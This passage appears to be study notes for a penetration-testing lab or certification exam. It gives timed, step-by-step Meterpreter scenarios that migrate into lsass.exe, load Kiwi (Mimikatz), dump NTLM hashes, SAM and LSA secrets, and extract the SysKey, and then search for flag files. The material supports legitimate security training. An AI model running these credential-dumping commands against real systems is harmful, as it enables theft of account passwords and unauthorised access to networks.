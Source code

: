 **Step-by-Step Approach:**
```bash
# Step 1: Check privileges (1 minute)
getuid
# Should show SYSTEM or Administrator

# Step 2: Migrate and load Kiwi (2 minutes)
migrate -N lsass.exe
load kiwi
# Wait for successful loading

# Step 3: Extract all credentials (2 minutes)
creds_all
# Document all NTLM hashes found

# Step 4: Get detailed SAM information (2 minutes)
lsa_dump_sam
# Look for RID 500 (Administrator account)
```

#### **Scenario 2: Multiple User Account Discovery**
**Given:** Windows workstation with multiple users
**Your Job:** Find all user accounts and their password hashes
**Time Limit:** 6-8 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Prepare environment (2 minutes)
getuid
migrate -N lsass.exe
load kiwi

# Step 2: Comprehensive credential extraction (3 minutes)
creds_all
lsa_dump_sam
# Count all user accounts found

# Step 3: Extract additional authentication data (3 minutes)
lsa_dump_secrets
creds_msv
# Look for cached domain credentials
```

#### **Scenario 3: System Key and Flag Recovery**
**Given:** Need to find specific system information
**Your Job:** Extract SysKey and locate flag files
**Time Limit:** 4-6 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Quick credential extraction (2 minutes)
load kiwi
creds_all

# Step 2: Get system encryption key (2 minutes)
lsa_dump_sam
# Look for SysKey value

# Step 3: Search for flags (2 minutes)
cd /
dir
search -f flag.txt
cat flag.txt
```
